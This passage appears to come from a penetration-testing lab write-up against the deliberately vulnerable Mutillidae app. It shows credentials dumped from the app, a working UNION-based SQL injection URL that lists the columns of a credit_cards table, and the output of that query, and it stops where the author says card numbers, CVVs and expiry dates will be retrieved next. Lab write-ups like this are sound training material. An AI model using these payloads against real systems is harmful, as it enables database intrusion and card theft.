 ```
Signature=FALSE

Username=john
Password=password
Signature=FALSE

Username=kevin
Password=42
Signature=FALSE

Username=dave
Password=set
Signature=FALSE

Username=ed
Password=pentest
Signature=FALSE

Username=noone
Password=noone
Signature=
```

* Just to try another example and see if we can retrieve the data from the credit cards table.

* First we need to find out the columns that present in this table.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27credit_cards%27%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* Output

```
Username=ccid
Password=
Signature=

Username=ccnumber
Password=
Signature=

Username=ccv
Password=
Signature=

Username=expiration
Password=
Signature=
```

* So i'm going to retreive the data from the ccnumber, ccv, and expiration columns.
